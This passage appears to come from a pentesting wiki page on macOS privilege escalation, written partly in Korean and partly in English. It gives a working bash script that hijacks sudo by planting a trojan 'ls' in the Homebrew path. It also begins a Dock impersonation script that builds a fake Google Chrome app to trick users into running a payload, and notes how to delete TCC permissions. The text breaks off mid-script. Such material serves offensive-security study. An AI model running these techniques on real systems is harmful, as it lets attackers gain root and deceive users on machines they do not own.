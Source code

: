{% content-ref url="macos-security-protections/macos-tcc/" %}
[macos-tcc](macos-security-protections/macos-tcc/)
{% endcontent-ref %}

## 리눅스 권한 상승

**리눅스/유닉스에 영향을 미치는 권한 상승에 대한 대부분의 트릭은 MacOS에도 영향을 미친다는 점에 유의하세요.** 따라서 다음을 참조하세요:

{% content-ref url="../../linux-hardening/privilege-escalation/" %}
[privilege-escalation](../../linux-hardening/privilege-escalation/)
{% endcontent-ref %}

## 사용자 상호작용

### Sudo 하이재킹

원래 [Sudo 하이재킹 기법은 리눅스 권한 상승 게시물에서 확인할 수 있습니다](../../linux-hardening/privilege-escalation/#sudo-hijacking).

그러나 macOS는 사용자가 **`sudo`**를 실행할 때 사용자의 **`PATH`**를 **유지**합니다. 즉, 이 공격을 달성하는 또 다른 방법은 피해자가 **sudo를 실행할 때** 여전히 실행할 **다른 바이너리**를 **하이재킹**하는 것입니다:
```bash
# Let's hijack ls in /opt/homebrew/bin, as this is usually already in the users PATH
cat > /opt/homebrew/bin/ls <<EOF
#!/bin/bash
if [ "\$(id -u)" -eq 0 ]; then
whoami > /tmp/privesc
fi
/bin/ls "\$@"
EOF
chmod +x /opt/homebrew/bin/ls

# victim
sudo ls
```
Note that a user that uses the terminal will highly probable have **Homebrew installed**. So it's possible to hijack binaries in **`/opt/homebrew/bin`**.

### Dock Impersonation

Using some **social engineering** you could **impersonate for example Google Chrome** inside the dock and actually execute your own script:

{% tabs %}
{% tab title="Chrome Impersonation" %}
Some suggestions:

* Check in the Dock if there is a Chrome, and in that case **remove** that entry and **add** the **fake** **Chrome entry in the same position** in the Dock array.&#x20;
```bash
#!/bin/sh

# THIS REQUIRES GOOGLE CHROME TO BE INSTALLED (TO COPY THE ICON)
# If you want to removed granted TCC permissions: > delete from access where client LIKE '%Chrome%';

rm -rf /tmp/Google\ Chrome.app/ 2>/dev/null

# Create App structure
mkdir -p /tmp/Google\ Chrome.app/Contents/MacOS
mkdir -p /tmp/Google\ Chrome.app/Contents/Resources

# Payload to execute
cat > /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome.c <<EOF
#include <stdio.h>
```